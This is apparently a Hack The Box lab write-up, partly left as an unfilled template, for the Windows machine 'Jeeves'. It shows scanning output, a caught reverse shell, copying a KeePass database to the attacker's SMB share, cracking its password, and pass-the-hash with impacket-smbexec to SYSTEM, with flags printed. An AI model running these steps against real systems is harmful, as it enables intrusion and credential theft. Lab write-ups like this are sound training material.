

| Property         | Value                         |
| ---------------- | ----------------------------- |
| **OS**           | Linux / Windows               |
| **Difficulty**   | Easy / Medium / Hard / Insane |
| **Release Date** | YYYY-MM-DD                    |
| **State**        | YYYY-MM-DD                    |
| **IP**           | 10.10.10.X                    |
| **Techniques**   | technique-1, technique-2      |
| **Tags**         | #web #privesc #linux          |

---
## Summary

Brief 2-3 sentence ogverview of the machine and attack path.

---
## Enumeration

### Nmap Scan

```
nmap -sC -sV jeeves.htb --open   
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-14 15:45 EDT
Nmap scan report for jeeves.htb (10.129.228.112)
Host is up (0.036s latency).
Not shown: 996 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s
| smb2-time: 
|   date: 2026-09-15T00:46:12
|_  start_date: 2026-09-15T00:43:24
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.27 seconds
```

### Directory Enumeration

```
gobuster dir -u http://jeeves.htb:50000 -w  /home/kali/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt

===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jeeves.htb:50000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://jeeves.htb:50000/askjeeves/]
Progress: 87662 / 87662 (100.00%)
===============================================================
Finished
===============================================================

```


---
## jenkins 



### Vulnerability

Description of the vulnerability exploited.

### Exploitation


---
## User Flag

```
nc -lvnp 9001                          
listening on [any] 9001 ...
connect to [10.10.15.80] from (UNKNOWN) [10.129.228.112] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami 
whoami
jeeves\kohsuke

C:\Users\Administrator\.jenkins>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\.jenkins

09/14/2026  08:44 PM    <DIR>          .
09/14/2026  08:44 PM    <DIR>          ..
11/08/2017  05:45 PM                48 .owner
09/14/2026  08:44 PM             1,684 config.xml
09/14/2026  08:43 PM               156 hudson.model.UpdateCenter.xml
11/03/2017  10:43 PM               374 hudson.plugins.git.GitTool.xml
11/03/2017  10:33 PM             1,712 identity.key.enc
11/03/2017  10:46 PM                94 jenkins.CLI.xml
09/14/2026  08:46 PM            85,017 jenkins.err.log
11/03/2017  10:47 PM           360,448 jenkins.exe
11/03/2017  10:47 PM               331 jenkins.exe.config
09/14/2026  08:44 PM                 4 jenkins.install.InstallUtil.lastExecVersion
11/03/2017  10:45 PM                 4 jenkins.install.UpgradeWizard.state
11/03/2017  10:46 PM               138 jenkins.model.DownloadSettings.xml
10/25/2022  12:56 PM             3,024 jenkins.out.log
09/14/2026  08:43 PM                 4 jenkins.pid
11/03/2017  10:46 PM               169 jenkins.security.QueueItemAuthenticatorConfiguration.xml
11/03/2017  10:46 PM               162 jenkins.security.UpdateSiteWarningsConfiguration.xml
11/03/2017  10:47 PM        74,271,222 jenkins.war
09/14/2026  08:43 PM            38,573 jenkins.wrapper.log
11/03/2017  10:49 PM             2,881 jenkins.xml
11/03/2017  10:33 PM    <DIR>          jobs
11/03/2017  10:33 PM    <DIR>          logs
09/14/2026  08:44 PM               907 nodeMonitors.xml
11/03/2017  10:33 PM    <DIR>          nodes
11/03/2017  10:44 PM    <DIR>          plugins
11/03/2017  10:47 PM               129 queue.xml.bak
11/03/2017  10:33 PM                64 secret.key
11/03/2017  10:33 PM                 0 secret.key.not-so-secret
12/24/2017  03:47 AM    <DIR>          secrets
11/08/2017  09:52 AM    <DIR>          updates
11/03/2017  10:33 PM    <DIR>          userContent
11/03/2017  10:33 PM    <DIR>          users
11/03/2017  10:47 PM    <DIR>          war
11/03/2017  10:43 PM    <DIR>          workflow-libs
              23 File(s)     74,767,145 bytes
              12 Dir(s)   2,648,793,088 bytes free

C:\Users\Administrator\.jenkins>dir c:\users
dir c:\users
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of c:\users

11/08/2017  06:22 PM    <DIR>          .
11/08/2017  06:22 PM    <DIR>          ..
11/03/2017  11:07 PM    <DIR>          Administrator
11/05/2017  10:17 PM    <DIR>          DefaultAppPool
11/03/2017  11:19 PM    <DIR>          kohsuke
10/25/2017  04:46 PM    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   2,648,793,088 bytes free

C:\Users\Administrator\.jenkins>dir c:\users\kohsuke\Desktop
dir c:\users\kohsuke\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of c:\users\kohsuke\Desktop

11/03/2017  11:19 PM    <DIR>          .
11/03/2017  11:19 PM    <DIR>          ..
11/03/2017  11:22 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   2,648,793,088 bytes free

C:\Users\Administrator\.jenkins>type c:\users\kohsuke\Desktop\user.txt
type c:\users\kohsuke\Desktop\user.txt
e3232272596fb47950d59c4cf1e7066a

```

## Privilege escalation

## KeePass Enumeration

```
C:\Users\Administrator\.jenkins\secrets>dir /s /b C:\*.kdbx 2>nul
dir /s /b C:\*.kdbx 2>nul
C:\Users\kohsuke\Documents\CEH.kdbx

```

```
C:\Users\kohsuke\Documents>copy CEH.kdbx \\10.10.15.80\share\CEH.kdbx
copy CEH.kdbx \\10.10.15.80\share\CEH.kdbx
        1 file(s) copied.

```

```
 keepass2john CEH.kdbx
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
                                                                                                                    
┌──(kali㉿kali)-[~/machines/jeeves]
└─$ nano CEH.hash

```

```
john --format=keepass --wordlist=/usr/share/wordlists/rockyou.txt CEH.hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)     
1g 0:00:00:20 DONE (2026-09-14 16:47) 0.04980g/s 2737p/s 2737c/s 2737C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                          
```

!
### Enumeration

aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
### Exploitation

```shell
impacket-smbexec -hashes :e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.129.228.112

Impacket v0.14.0.dev0+20251120.95652.9c2d8b61 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>dir /R C:\Users\Administrator\Desktop\hm.txt

 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
               1 File(s)             36 bytes
               0 Dir(s)   2,648,481,792 bytes free

C:\Windows\system32>
C:\Windows\system32>

```


```
┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-smbexec -hashes :e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.129.228.112

Impacket v0.14.0.dev0+20251120.95652.9c2d8b61 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd c:\users\administrator\Desktop
[-] You can't CD under SMBEXEC. Use full paths.
C:\Windows\system32>type c:\users\administrator\Desktop\root.txt
The system cannot find the file specified.

C:\Windows\system32>dir c:\users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of c:\users\administrator\desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,648,481,792 bytes free

C:\Windows\system32>type c:\users\administrator\Desktop\hm.txt
The flag is elsewhere.  Look deeper.
C:\Windows\system32>dir /s /b C:\root.txt 2>nul
[-] SMB SessionError: code: 0xc0000034 - STATUS_OBJECT_NAME_NOT_FOUND - The object name is not found.
                                                                                                                    
┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-smbexec -hashes :e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.129.228.112

Impacket v0.14.0.dev0+20251120.95652.9c2d8b61 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>dir /s /b C:\root.txt 2>nul
[-] SMB SessionError: code: 0xc0000034 - STATUS_OBJECT_NAME_NOT_FOUND - The object name is not found.
                                                                                                                    
┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-smbexec -hashes :e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.129.228.112

Impacket v0.14.0.dev0+20251120.95652.9c2d8b61 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>dir /R C:\Users\Administrator\Desktop\hm.txt

 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
               1 File(s)             36 bytes
               0 Dir(s)   2,648,481,792 bytes free

C:\Windows\system32>
C:\Windows\system32>type c:\users\administrator\Desktop\hm.txt:root.txt:$DATA
The filename, directory name, or volume label syntax is incorrect.

C:\Windows\system32>type c:\users\administrator\Desktop\hm.txt:root.txt
The filename, directory name, or volume label syntax is incorrect.

C:\Windows\system32>more < C:\Users\Administrator\Desktop\hm.txt:root.txt

^C[-] Error occurs while reading from remote(104)
[-] [Errno 32] Broken pipe
                                                                                                                    
┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-smbexec -hashes :e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.129.228.112

Impacket v0.14.0.dev0+20251120.95652.9c2d8b61 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>powershell -Command "Get-Content C:\Users\Administrator\Desktop\hm.txt -Stream root.txt"

afbc5bd4b615a60648cec41c6ac92530

C:\Windows\system32>
C:\Windows\system32>

```

---
## Remediation

- Key takeaway 1
- Key takeaway 2
- Key takeaway 3

---
## References

- [Reference 1](https://github.com/momenbasel/htb-writeups/blob/main/templates/url)
- [Reference 2](https://github.com/momenbasel/htb-writeups/blob/main/templates/url)